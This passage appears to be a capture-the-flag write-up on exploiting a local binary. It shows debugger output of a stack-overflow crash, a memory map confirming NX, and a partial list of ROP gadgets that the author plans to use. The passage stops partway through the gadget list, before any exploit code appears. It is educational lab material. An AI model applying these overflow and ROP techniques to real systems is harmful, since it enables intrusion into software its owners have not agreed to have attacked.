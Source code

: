 ```  
stack ────  
0x00007fffffffe138│+0x0000: "CCCCDDDD\n"         ← $rsp  
0x00007fffffffe140│+0x0008: 0x000000000000000a  
0x00007fffffffe148│+0x0010: 0x00007fffffffe439  →  "/root/ctf/some/some"  
0x00007fffffffe150│+0x0018: 0x0000000000000000  
0x00007fffffffe158│+0x0020: 0x00007fffffffe44d  →  "SHELL=/usr/bin/bash"  
0x00007fffffffe160│+0x0028: 0x00007fffffffe461  →
"SESSION_MANAGER=local/Daemon:@/tmp/.ICE-unix/888,u[...]"  
0x00007fffffffe168│+0x0030: 0x00007fffffffe4b1  →  "WINDOWID=0"  
0x00007fffffffe170│+0x0038: 0x00007fffffffe4bc  →  "QT_ACCESSIBILITY=1"  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
code:x86:64 ────  
    0x401053                  mov    rsi, rax  
    0x401056                  call   0x401011  
    0x40105b                  leave    
→   0x40105c                  ret  
[!] Cannot disassemble from $PC  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
threads ────  
[#0] Id 1, Name: "some", stopped 0x40105c in ?? (), reason: SIGSEGV  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
trace ────  
[#0] 0x40105c → ret  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
```

ok we note that we have controll over the rax and we can write up to 800 bytes
into the stack and overflow it.  
on the other side we have to deal with NX and ASLR

here was the point i strugelded a bit i checked vmmap where we can see than NX
is enabled means we cant execute sellcode from the stack.  
```  
[ Legend:  Code | Heap | Stack ]  
Start              End                Offset             Perm Path  
0x0000000000400000 0x0000000000401000 0x0000000000000000 r--
/root/ctf/some/some  
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x
/root/ctf/some/some  
0x0000000000402000 0x0000000000403000 0x0000000000002000 rw-
/root/ctf/some/some  
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]  
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]  
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]  
```  
i thought ok maybe we can ROP and i checked ropper to find avilable gadgets

```

Gadgets  
=======

0x0000000000401007: add byte ptr [rax], al; add byte ptr [rax], al; mov rdi,
rax; syscall;  
0x0000000000401007: add byte ptr [rax], al; add byte ptr [rax], al; mov rdi,
rax; syscall; ret;  
0x0000000000401009: add byte ptr [rax], al; mov rdi, rax; syscall;  
0x0000000000401009: add byte ptr [rax], al; mov rdi, rax; syscall; ret;  
0x0000000000401018: add dword ptr [rax], eax; add byte ptr [rax], al; mov rdi,
rax; syscall;  
0x0000000000401018: add dword ptr [rax], eax; add byte ptr [rax], al; mov rdi,
```